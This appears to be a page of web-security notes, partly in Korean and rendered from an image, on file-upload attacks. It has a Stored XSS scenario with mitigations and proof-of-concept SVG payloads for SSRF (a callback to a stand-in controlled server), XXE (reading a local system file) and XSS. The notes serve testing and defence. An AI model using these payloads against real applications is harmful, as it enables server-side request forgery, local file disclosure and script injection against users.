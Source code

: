 ### 5. **클라이언트 공격 (Stored XSS)**
악성 파일이 잘못된 Content-Type으로 처리되어 클라이언트에 전달되면, 클라이언트 측 공격으로 이어질 수 있습니다.

#### 시나리오
- 공격자가 악성 JavaScript가 포함된 HTML 파일을 업로드하면서 Content-Type을 `image/png`으로 설정.
- 파일이 안전한 이미지 파일로 처리되어 클라이언트에 제공.
- 사용자가 파일을 열 때 악성 스크립트가 실행되어 **Stored XSS** 발생.

#### 방지 방법
- **파일 형식 화이트리스트**: 업로드를 허용하는 파일 형식을 명확히 제한.
- **출력 인코딩**: 파일 이름이나 내용이 사용자에게 노출될 경우 적절히 인코딩.

## SGV 파일의 취약점

### Case 1: SSRF

For this exploit, an attacker needs to create an SVG file with the below content and change the controlled server URL to its own server:
```html
<svg xmlns:svg=”http://www.w3.org/2000/svg" xmlns=”http://www.w3.org/2000/svg" xmlns:xlink=”http://www.w3.org/1999/xlink" width=”200" height=”200">

<image height=”30" width=”30"

xlink:href=”https://controlledserver.com/pic.svg" />

</svg>
```
If they upload this file to the application, there will be a callback if the application is vulnerable.

### Case 2: XXE

Here, attackers create an SVG file with the content shown below, and if the server is vulnerable the content of the local file is visible either in the response or in the image itself.
```html
<?xml version=”1.0" standalone=”yes”?><!DOCTYPE test [ <!ENTITY xxe SYSTEM “file:///etc/hostname” > ]><svg width=”128px” height=”128px” xmlns=”http://www.w3.org/2000/svg" xmlns:xlink=”http://www.w3.org/1999/xlink" version=”1.1"><text font-size=”16" x=”0" y=”16">&xxe;</text></svg>
```

### Case 3: Cross Site Scripting

In this case, attackers need to create an SVG file with the below content. If the server is vulnerable, they will see a pop-up showing that it is.
```html
<svg xmlns=”http://www.w3.org/2000/svg">

<script>alert(‘XSS’);</script>

<rect x=”0" height=”100" width=”100" style=”fill: #cccccc”/>

<line x1=”20" y1=”80" x2=”80" y2=”80" style=”stroke: #ff0000; stroke-width: 5;”/>

</svg>
```
